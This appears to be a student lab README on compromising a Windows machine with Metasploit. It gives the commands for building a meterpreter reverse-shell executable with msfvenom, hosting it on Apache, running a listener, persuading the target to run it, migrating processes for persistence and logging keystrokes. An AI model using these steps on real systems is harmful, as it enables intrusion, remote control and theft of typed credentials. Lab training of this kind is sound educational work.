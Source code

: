 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:
Step 1: Install kali linux either in partition or virtual box or in live mode
Step 2: Investigate on the various categories of tools as follows:
Step 3: Open terminal and try execute some kali linux commands

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/0dd3d067-aba5-458c-9ae0-dc8287c7228e)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/d3ccdc73-0cf7-4c28-859f-30d6912bc614)
copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/1753dc20-b629-41be-8f4f-3059ea1ccac3)
Start apache server sudo systemctl apache2 start

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/8b15cfae-eeea-45e9-8dd5-9949e1775d08)

Check the status of apache2
Invoke msfconsole: msfconsole



![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/2b781436-eea0-4609-bd43-c0a1fbd92834)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/ad4589ab-c275-4f10-a667-d3e393339177)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit css
![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/cc3b7ab2-dd6b-476c-a98b-bb2727669621)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/9a147d92-87a4-46c7-8ee7-a5df75e47463)
Bypass any warning boxes, double-click the file, and allow it to run.

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/38950493-c57d-4afb-835b-cdc946e9b0f6)

On kali give the command exploit

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/22217eab-0577-4df0-b438-fb73c13b1ca1)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/74d5af80-b9d5-4175-ab54-6014339dcb8a)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted.
![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/15d5a3da-048d-4646-a9a6-b3804542ff37)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/4d1ae16f-5053-4ab4-898e-e38e606f2b91)
keyscan_dump Shows the keystrokes captured so far.
![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/95831af7-2bb6-43da-943e-360a3bdca497)





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
